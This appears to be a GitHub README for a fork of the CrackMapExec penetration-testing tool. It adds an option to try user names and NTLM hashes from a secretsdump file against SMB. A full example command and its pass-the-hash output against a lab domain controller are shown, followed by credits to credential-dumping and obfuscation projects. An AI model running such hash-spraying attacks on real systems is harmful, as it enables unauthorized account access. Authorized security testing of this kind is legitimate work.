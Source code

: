 ![Supported Python versions](https://img.shields.io/badge/python-2.7-blue.svg)

# CrackMapExec fork to include features

## Features Added
** Test user and hashes from file with "secretdump" format (-uH parameter) **

### Example:

```
(CrackMapExec) ~/t/CrackMapExec> cme smb 192.168.56.100 -d ramlab -uH ../hashes.txt
SMB         192.168.56.100  445    DC01             [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:DC01) (domain:ramlab) (signing:True) (SMBv1:True)
SMB         192.168.56.100  445    DC01             [-] ramlab\testuser22 4139c3eafc40242c4317313ea08d00b7 STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [-] ramlab\aaandy 4b291acc6fd3ae12f92ec3e587ab5abe STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [+] ramlab\testuser2 85a165727adfbd6550626d515e4e1ef3 
SMB         192.168.56.100  445    DC01             [-] ramlab\mnfffi 70e81ac21b3b2aedf0b4b601a6226d2d STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [-] ramlab\btoaan 0c391a86d139b2a17cf3260a06387558 STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [+] ramlab\testuser3 4139c3eafc40242c4317313ea08d00b7 
SMB         192.168.56.100  445    DC01             [+] ramlab\testuser2 85a165727adfbd6550626d515e4e1ef3 
SMB         192.168.56.100  445    DC01             [-] ramlab\btoaan 0c391a86d139b2a17cf3260a06387558 STATUS_LOGON_FAILURE 
```

# Acknowledgments
**(These are the people who did the hard stuff)**

Original repository:
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) :+1:

This project was originally inspired by:
- [smbmap](https://github.com/ShawnDEvans/smbmap)
- [CredCrack](https://github.com/gojhonny/CredCrack)
- [smbexec](https://github.com/pentestgeek/smbexec)

Unintentional contributors:

- The [Empire](https://github.com/PowerShellEmpire/Empire) project
- @T-S-A's [smbspider](https://github.com/T-S-A/smbspider) script
- @ConsciousHacker's partial Python port of Invoke-obfuscation from the [GreatSCT](https://github.com/GreatSCT/GreatSCT) project

This repository contains the following repositories as submodules:
- [Impacket](https://github.com/CoreSecurity/impacket)
- [Pywinrm](https://github.com/diyan/pywinrm)
- [Pywerview](https://github.com/the-useless-one/pywerview)
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
- [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
- [Invoke-Vnc](https://github.com/artkond/Invoke-Vnc)
- [Mimikittenz](https://github.com/putterpanda/mimikittenz)
- [NetRipper](https://github.com/NytroRST/NetRipper)
- [RandomPS-Scripts](https://github.com/xorrior/RandomPS-Scripts)
- [SessionGopher](https://github.com/fireeye/SessionGopher)
- [Mimipenguin](https://github.com/huntergregal/mimipenguin)

# Documentation, Tutorials, Examples
See the project's [wiki](https://github.com/byt3bl33d3r/CrackMapExec/wiki) for documentation and usage examples

# Installation
Please see the installation wiki page [here](https://github.com/byt3bl33d3r/CrackMapExec/wiki/Installation).
